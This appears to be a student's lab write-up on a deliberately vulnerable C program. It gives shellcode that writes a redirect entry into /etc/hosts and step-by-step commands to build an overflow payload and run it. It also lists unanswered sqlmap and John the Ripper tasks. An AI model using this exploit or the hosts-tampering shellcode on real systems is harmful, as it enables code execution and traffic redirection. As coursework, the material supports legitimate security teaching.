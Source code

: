 # Lab #1,22110075, Ha Quoc Tien, INSE330380E_02FIE
# Task 1: Software buffer overflow

Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)
**Idea to attack**
- In the `vuln.c`, strcpy in vulnerable to buffer-overflow, which we can exploit to overwrite the return address and force the program to execute our shellcode.
- But, since the buffer size is now only 16 bytes, you will need to calculate the exact amount of data that will overflow the buffer and overwrite the return address.

**Step 1: Compile asm program and C program to executable code.**
- First, compile the asm program:`nasm -f elf32 -o shellcode.o shellcode.asm`<br>
    - Use `ld -o shellcode shellcode.o` to link object code to create executable file

- Second, complie the C program: `gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`<br>
    - `-fno-stack-protector`: This disables stack protection mechanisms that prevent buffer overflows.
    - `-mpreferred-stack-boundary=2`: option in GCC is used to specify the alignment of the stack.
    - `-z execstack`: This makes the stack executable, allowing us to run shellcode.

**Step 2: Extrac the shellcode**
- We need to extract the shellcode in raw byte format to inject it into the C program's buffer.

 >`objdump -d ./shellcode | grep '[0-9a-f]:' | cut -f2- | cut -d' ' -f1 | xxd -r -p > shellcode.bin`
 - This command generates a binary file shellcode.bin containing the raw shellcode.

**Step 3: Determine the Buffer Overflow Point**
- Stack frame

    ![task1_1]()

- From the stack frame, we can see that the return address is located 24 bytes after the start of the buffer. Therefore, we will need to overflow the buffer with 20 bytes of junk and then overwrite the return address with the address of our shellcode (4 bytes).

**Step 4:  Craft the Exploit Payload**
- The payload consists of three parts:
    1. 20 bytes of junk
    2. The address of the shellcode (an environment variable)
    3. the shellcode, place in an environment variable

- Place the shellcode in an environment variable: `export SHELLCODE=$(cat shellcode.bin)`
- Use `GDB` to get the environment variable's address
    - `gdb vuln.out`
    - Disassemble the main function: `disas main`
    - Run the function and then search for the environment variable's address using: `print getenv("SHELLCODE")`
     
        ![task1_2]()

- Next, construct the payload using a Python script:<br>
    `python -c 'print "A"*20 + "\xb8\xdf\xff\xff"' > payload`

**Step 5: Run the Exploit**
- Finally, run the vulnerable program with the crafted payload. The shellcode will be executed, and the /etc/hosts file will be modified.<br>
`./vuln.out $(cat payload)`

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
